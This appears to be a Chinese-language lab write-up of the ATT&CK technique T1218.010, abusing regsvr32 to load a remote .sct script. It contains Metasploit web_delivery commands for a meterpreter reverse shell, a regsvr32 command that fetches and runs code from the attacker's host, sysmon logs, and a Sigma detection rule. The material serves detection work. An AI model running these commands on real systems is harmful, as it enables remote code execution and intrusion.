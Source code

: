 # T1218-010-win-基于白名单Regsvr32执行payload

## 来自ATT&CK的描述

命令行程序Regsvr32.exe用于在Windows系统上注册和注销对象链接及嵌入控件，包括动态链接库（DLL）。Regsvr32.exe可用于执行任意二进制文件。

攻击者可能会利用此功能代理执行代码，从而避免触发那些可能不会监控regsvr32.exe进程执行及其加载模块的安全工具，因为正常操作中使用regsvr32.exe的Windows会有白名单或误报。Regsvr32.exe也是微软签名的二进制文件。

Regsvr32.exe还可用于专门绕过进程白名单，方法是加载COM脚本小程序在用户权限下执行动态链接库。由于regsvr32.exe具有网络和代理感知功能，可以在调用期间将URL作为参数传递到外部web服务器上的文件来加载脚本。此方法不对注册表进行任何更改，因为COM对象实际上未注册，仅执行。这个技术变种通常称为“Squiblydoo”攻击，已被攻击者用于针对政府的活动中。

攻击者还可能会利用Regsvr32.exe来注册COM对象以便通过COM劫持建立持久性。

## 测试案例

Regsvr32命令用于注册COM组件，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。WinXP及以上系统的regsvr32.exe在windows\system32文件夹下；2000系统的regsvr32.exe在winnt\system32文件夹下。但搭配regsvr32.exe使用的 DLL，需要提供 DllRegisterServer 和 DllUnregisterServer两个输出函式，或者提供DllInstall输出函数。

说明：Regsvr32.exe所在路径已被系统添加PATH环境变量中，因此，Regsvr32命令可识别。

默认位置：

```bash
C:\WINDOWS\SysWOW64\regsvr32.exe
C:\WINDOWS\system32\regsvr32.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon日志）

### 攻击分析

#### 配置MSF

```bash
msf5 > use exploit/multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > set target 3
target => 3
msf5 exploit(multi/script/web_delivery) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Using URL: http://0.0.0.0:8080/06Yud7aXXqYqT
[*] Local IP: http://192.168.126.146:8080/06Yud7aXXqYqT
[*] Server started.
[*] Run the following command on the target machine:
regsvr32 /s /n /u /i:http://192.168.126.146:8080/06Yud7aXXqYqT.sct scrobj.dll
```

#### 靶机执行payload

```cmd
regsvr32 /s /n /u /i:http://192.168.126.146:8080/jnOUcgr0b0 scrobj.dll
```

#### 反弹shell

```bash
msf5 exploit(multi/script/web_delivery) > [*] 192.168.126.149  web_delivery - Handling .sct Request
[*] 192.168.126.149  web_delivery - Delivering Payload (1900 bytes)
[*] 192.168.126.149  web_delivery - Handling .sct Request
```

以失败告终，windows powershell已停止工作

## 测试留痕

```log
EventID：1
Image: C:\Windows\System32\regsvr32.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Microsoft(C) Register Server
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: REGSVR32.EXE
CommandLine: regsvr32  /s /n /u /i:http://192.168.126.146:8080/06Yud7aXXqYqT.sct scrobj.dll
# sysmon日志
```

## 检测规则/思路

### sigma规则

```yml
title: Regsvr32 Anomaly
status: experimental
description: Detects various anomalies in relation to regsvr32.exe
author: Florian Roth
date: 2019/01/16
references:
    - https://subt0x10.blogspot.de/2017/04/bypass-application-whitelisting-script.html
tags:
    - attack.t1117
    - attack.defense_evasion
    - attack.execution
    - car.2019-04-002
    - car.2019-04-003
logsource:
    category: process_creation
    product: windows
detection:
    selection1:
        Image: '*\regsvr32.exe'
        CommandLine: '*\Temp\\*'
    selection2:
        Image: '*\regsvr32.exe'
        ParentImage: '*\powershell.exe'
    selection3:
        Image: '*\regsvr32.exe'
        ParentImage: '*\cmd.exe'
    selection4:
        Image: '*\regsvr32.exe'
        CommandLine:
            - '*/i:http* scrobj.dll'
            - '*/i:ftp* scrobj.dll'
    selection5:
        Image: '*\wscript.exe'
        ParentImage: '*\regsvr32.exe'
    selection6:
        Image: '*\EXCEL.EXE'
        CommandLine: '*..\..\..\Windows\System32\regsvr32.exe *'
    condition: 1 of them
fields:
    - CommandLine
    - ParentCommandLine
falsepositives:
    - Unknown
level: high
```

### 建议

通过进程监控来检测和分析regsvr32.exe的执行和参数。比较regsvr32.exe的近期调用与历史已知合法参数及已加载文件来确定是否有异常和潜在的攻击活动。在regsvr32.exe调用之前和之后使用的命令参数也可用于确定正在加载的脚本或者动态链接库的来源和目的。

## 参考推荐

MITRE-ATT&CK-T1218-010

<https://attack.mitre.org/techniques/T1218/010/>

